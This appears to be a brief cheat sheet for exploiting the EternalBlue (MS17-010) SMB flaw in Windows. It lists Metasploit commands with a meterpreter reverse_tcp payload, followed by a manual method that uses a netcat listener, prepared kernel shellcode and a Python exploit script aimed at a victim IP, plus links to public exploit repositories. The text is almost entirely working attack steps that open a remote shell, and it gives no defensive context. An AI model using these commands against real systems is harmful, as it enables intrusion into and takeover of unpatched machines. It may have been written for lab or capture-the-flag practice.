

Eternal Blue with Metasploit
# msfconsole
> search ms17-010
> use exploit/windwos/smb/ms17_010_eternalblue
> set payload windows/x64/meterpreter/reverse_tcp
> set LHOST tun0
> set RHOST <target>
> run
https://github.com/3ndG4me/AutoBlue-MS17-010
1. run shellcode/shell_prep

2. listening port with nc -lvnp <port>
3. execute eternalblue_exploit7.py
python3 eternalblue_exploit7.py <ip victim> shellcode/sc_x64_kernel.bin
Alternative (use this script)
https://github.com/loopspell/MS17-010-nc
sudo apt install python-pip
pip2 install impacket